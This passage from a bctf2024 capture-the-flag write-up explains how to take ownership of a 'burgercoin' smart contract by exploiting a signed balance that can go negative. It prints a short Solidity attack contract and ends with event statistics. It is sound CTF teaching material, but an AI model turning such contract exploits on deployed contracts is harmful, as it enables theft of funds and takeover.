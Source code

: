 To become owner we need to get 30 burger coins. We can do this by calling `purchaseBurger` 30 times from different addresses. The contract won't run out of burgercoin since it is an `int` and can go negative.

After we have 30 burgercoins, we can call `transferBurgerjointOwnership` to transfer ownership to an address with 0 burgercoins.

Then the challenge is solved.

Solve Contract:
```js
contract Attack {
    burgercoin public target;

    constructor(address _target) {
        target = burgercoin(_target);
    }

    function attack(address _me) public {
        target.purchaseBurger();
        target.transfer(_me, 1);
    }

    function isSolved() public view returns (bool) {
        return target.isSolved();
    }
}
```

# Review
---

I'd say this iteration of bctf2024 went very well, and people seemed to have a lot of fun solving my challenges! 

See some stats below
```
739 total teams
393 teams solved sanity check or more
276 teams solved a non-sanity check chall
```

See you next year!!
